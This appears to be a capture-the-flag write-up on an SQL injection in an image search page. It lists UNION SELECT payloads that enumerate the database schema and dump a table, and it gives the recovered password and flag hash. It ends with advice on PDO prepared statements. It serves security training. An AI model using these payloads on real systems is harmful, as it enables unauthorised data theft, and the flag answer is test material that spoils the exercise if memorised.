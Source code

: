 # SQL Injection - Images 

`f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

---

## Description

go to `/?page=searchimg`

submit :
- `1 AND 1=2 UNION SELECT column_name , 1 FROM information_schema.columns`
- `1 AND 1=2 UNION SELECT table_name , 1 FROM information_schema.columns`
- `1 AND 1=2 UNION SELECT table_schema, 1 FROM information_schema.tables`

then \
`1 AND 1=2 UNION SELECT title, comment FROM Member_images.list_images`

"If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"

password => 1928e8083cf461a51303633093573c46 => albatroz

albatroz => sha256 => f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

---

## How to prevent it ?

In the case of a php back-end, use PDO :
- The query will be sanitized with the `prepare` statement
- It will then be executed with the `execute` statement once the risk of an undesired effect is avoided

Here is a more detailed explanation found on SO regarding the `prepare` command :

>"The SQL statement you pass to prepare is parsed and compiled by the database server. By specifying parameters (either a ? or a named parameter like :name in the example above) you tell the database engine where you want to filter on. Then when you call execute, the prepared statement is combined with the parameter values you specify.

>The important thing here is that the parameter values are combined with the compiled statement, not an SQL string. SQL injection works by tricking the script into including malicious strings when it creates SQL to send to the database. So by sending the actual SQL separately from the parameters, you limit the risk of ending up with something you didn't intend."